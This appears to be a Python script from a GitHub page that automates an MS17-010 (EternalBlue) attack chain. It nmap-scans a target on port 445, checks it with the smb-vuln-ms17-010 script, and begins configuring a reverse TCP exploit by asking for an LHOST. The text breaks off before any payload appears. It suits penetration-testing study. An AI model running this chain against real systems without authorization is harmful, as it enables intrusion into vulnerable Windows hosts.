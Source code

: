 ```python
import subprocess
import re

def main():
    # Print ASCII art
    print("")
    print(" ██████╗██╗   ██╗███████╗    ██████╗  ██████╗  ██╗███████╗       ██████╗  ██╗██╗  ██╗██████╗ ")
    print("██╔════╝██║   ██║██╔════╝    ╚════██╗██╔═████╗███║╚════██║      ██╔═████╗███║██║  ██║╚════██╗")
    print("██║     ██║   ██║█████╗█████╗ █████╔╝██║██╔██║╚██║    ██╔╝█████╗██║██╔██║╚██║███████║ █████╔╝")
    print("██║     ╚██╗ ██╔╝██╔══╝╚════╝██╔═══╝ ████╔╝██║ ██║   ██╔╝ ╚════╝████╔╝██║ ██║╚════██║ ╚═══██╗")
    print("╚██████╗ ╚████╔╝ ███████╗    ███████╗╚██████╔╝ ██║   ██║        ╚██████╔╝ ██║     ██║██████╔╝")
    print(" ╚═════╝  ╚═══╝  ╚══════╝    ╚══════╝ ╚═════╝  ╚═╝   ╚═╝         ╚═════╝  ╚═╝     ╚═╝╚═════╝ ")
    print("                        https://github.com/vaishnavucv/")
    print("")

    # Ask for the IP address and scan file name
    ip_address = input("Enter the IP Address to scan: ")
    scan_name = input("Enter the Scan Name: ")

    print(f"Scanning for the {ip_address}, looking for 445...")
    print("")

    # Perform the scan
    subprocess.run(["nmap", "-p445", "-sV", "-vv", "-oN", f"{scan_name}-service-enum.txt", ip_address], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

    # Check if port 445 is open
    is_port_open = False
    with open(f"{scan_name}-service-enum.txt", "r") as file:
        for line in file:
            if "445/tcp" in line:
                is_port_open = True
                parts = re.split(r'\s+', line)
                print("Port 445 is open")
                print(f"Service running on port 445: {parts[2]} {parts[3]}")
                break

    if is_port_open:
        print("Performing Vulnerability scan on port 445...")
        subprocess.run(["nmap", "-p445", "-vv", "--script", "smb-vuln-ms17-010", "-oN", f"{scan_name}-enum-vuln.txt", ip_address], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        print("")

        # Check if MS17-010 vulnerability is detected
        is_vulnerable = False
        with open(f"{scan_name}-enum-vuln.txt", "r") as file:
            for line in file:
                if "VULNERABLE:" in line:
                    is_vulnerable = True
                    break

        if is_vulnerable:
            print("MS17-010 vulnerability is detected.....")
            print("Preparing EXPLOIT config script...!")

            # Ask for LHOST and LPORT
            lhost = input("Enter the LHOST for reverse TCP connection: ")
```